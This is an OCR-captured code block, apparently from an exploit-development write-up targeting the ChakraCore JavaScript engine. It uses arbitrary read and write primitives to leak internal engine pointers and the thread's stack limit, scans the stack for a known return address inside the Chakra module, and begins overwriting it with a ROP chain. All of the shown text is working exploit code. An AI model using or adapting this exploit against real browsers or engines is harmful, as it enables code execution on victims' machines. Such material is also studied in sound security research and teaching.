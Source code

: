 ```javascript
    scriptContext = read64(javascriptLibrary[0]+0x450, javascriptLibrary[1]);

    // Leak type->javascripLibrary->scriptContext->threadContext
    threadContext = read64(scriptContext[0]+0x3b8, scriptContext[1]);

    // Leak type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread (located at threadContext+0xc8)
    stackAddress = read64(threadContext[0]+0xc8, threadContext[1]);

    // Print update
    print("[+] Leaked stack from type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread!");
    print("[+] Stack leak: 0x" + hex(stackAddress[1]) + hex(stackAddress[0]));

    // Compute the stack limit for the current thread and store it in an array
    var stackLeak = new Uint32Array(0x10);
    stackLeak[0] = stackAddress[0] + 0xed000;
    stackLeak[1] = stackAddress[1];

    // Print update
    print("[+] Stack limit: 0x" + hex(stackLeak[1]) + hex(stackLeak[0]));

    // Scan the stack

    // Counter variable
    let counter = 0;

    // Store our target return address
    var retAddr = new Uint32Array(0x10);
    retAddr[0] = chakraLo + 0x1768bc0;
    retAddr[1] = chakraHigh;

    // Loop until we find our target address
    while (true)
    {

        // Store the contents of the stack
        tempContents = read64(stackLeak[0]+counter, stackLeak[1]);

        // Did we find our return address?
        if ((tempContents[0] == retAddr[0]) && (tempContents[1] == retAddr[1]))
        {
            // print update
            print("[+] Found the target return address on the stack!");

            // stackLeak+counter will now contain the stack address which contains the target return address
            // We want to use our arbitrary write primitive to overwrite this stack address with our own value
            print("[+] Target return address: 0x" + hex(stackLeak[0]+counter) + hex(stackLeak[1]));

            // Break out of the loop
            break;
        }

        // Increment the counter if we didn't find our target return address
        counter += 0x8;
    }

    // Begin ROP chain
    write64(stackLeak[0]+counter, stackLeak[1], chakraLo+0x3e876, chakraHigh);      // 0x18003e876: pop rax ; ret
    counter+=0x8;
```
